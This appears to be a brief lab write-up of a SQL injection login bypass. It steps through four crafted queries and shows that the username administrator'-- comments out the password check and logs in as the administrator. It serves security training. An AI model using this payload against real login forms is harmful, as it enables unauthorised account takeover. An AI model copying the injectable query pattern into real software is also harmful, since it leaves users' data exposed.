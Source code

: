 **`Vulnerability allowing login bypass`**
**SQL injection: Login functionality**

*- Goal: `Log in to the app as the administrator user`*

*- Analyze:*

1. SELECT * FROM users WHERE username = 'administrator' AND password='admininstrator'
--> return `Invalid username and password`
2. SELECT * FROM users WHERE username = ''' AND password='admininstrator'
--> return error page
3. SELECT * FROM users WHERE username = ''--' AND password='administrator'
--> return `Invalid username and password`
4. SELECT * FROM users WHERE username = 'administrator'--' and password='abcdef'
--> return logged in page

*`LAB SOLVED`*
